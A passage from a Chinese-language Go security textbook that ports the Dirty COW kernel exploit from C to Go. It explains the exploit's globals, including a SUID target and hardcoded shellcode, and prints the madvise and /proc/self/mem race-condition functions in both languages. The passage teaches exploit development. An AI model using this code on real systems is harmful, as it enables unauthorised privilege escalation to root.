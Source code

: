 *Listing 9-7: Go 中的初始化*

C 与 Go 之间的翻译相当简单。C 和 Go 的两段代码保持相同的行号，展示 Go 如何实现与 C 代码相应行的类似功能。在这两种情况下，您都通过定义一个`uintptr`变量❶来跟踪映射内存。在 Go 中，您将变量名声明为`mapp`，因为与 C 不同，`map`是 Go 中的保留关键字。接下来，您初始化一个变量，用于信号线程停止处理❷。与 C 代码中使用整数不同，Go 的惯例是使用带缓冲的布尔通道。您显式地定义其长度为`2`，因为将会有两个并发函数需要进行信号传递。接下来，您定义一个指向 SUID 可执行文件的字符串❸，并通过将 Shellcode 硬编码到切片中来完成全局变量的定义❹。与 C 版本相比，Go 代码中省略了一些全局变量，这意味着您将在相应的代码块中按需定义它们。

接下来，我们来看看`madvise()`和`procselfmem()`，这两个主要利用竞态条件的函数。我们将再次将 C 版本与 Go 版本进行比较。

```
void *madviseThread(void *arg)
{
    char *str;
    str=(char*)arg;
    int i,c=0;
    for(i=0;i<1000000 && !stop;i++❶) {
        c+=madvise(map,100,MADV_DONTNEED)❷;
    }
    printf("thread stopped\n");
}

void *procselfmemThread(void *arg)
{
    char *str;
    str=(char*)arg;
    int f=open("/proc/self/mem",O_RDWR);
    int i,c=0;
    for(i=0;i<1000000 && !stop;i++❶) {
     ❸ lseek(f,map,SEEK_SET);
        c+=write(f, str, sc_len)❹;
    }
    printf("thread stopped\n");
}
```

*列表 9-8：C 语言中的竞态条件函数*

```
func madvise() {
    for i := 0; i < 1000000; i++ {
        select {
        case <- signals: ❶
            fmt.Println("madvise done")
            return
        default:
            syscall.Syscall(syscall.SYS_MADVISE, mapp, uintptr(100), syscall.MADV_DONTNEED) ❷
        }
    }
}

func procselfmem(payload []byte) {
    f, err := os.OpenFile("/proc/self/mem", syscall.O_RDWR, 0)
    if err != nil {
        log.Fatal(err)
    }
 for i := 0; i < 1000000; i++ {
        select {
        case <- signals: ❶
            fmt.Println("procselfmem done")
            return
        default:
            syscall.Syscall(syscall.SYS_LSEEK, f.Fd(), mapp, uintptr(os.SEEK_SET)) ❸
            f.Write(payload) ❹
        }
    }
}
```